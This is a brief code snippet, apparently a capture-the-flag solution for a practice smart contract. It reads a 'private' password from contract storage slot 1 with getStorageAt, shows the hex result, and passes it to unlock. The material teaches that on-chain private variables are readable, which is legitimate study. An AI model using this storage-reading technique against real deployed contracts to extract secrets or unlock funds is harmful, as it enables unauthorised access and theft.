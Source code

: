 ```
await web3.eth.getStorageAt(instance, 1) // 1 is storage index of variable that holds password
```


response: '0x412076657279207374726f6e67207365637265742070617373776f7264203a29'


```
await contract.unlock('0x412076657279207374726f6e67207365637265742070617373776f7264203a29')
```
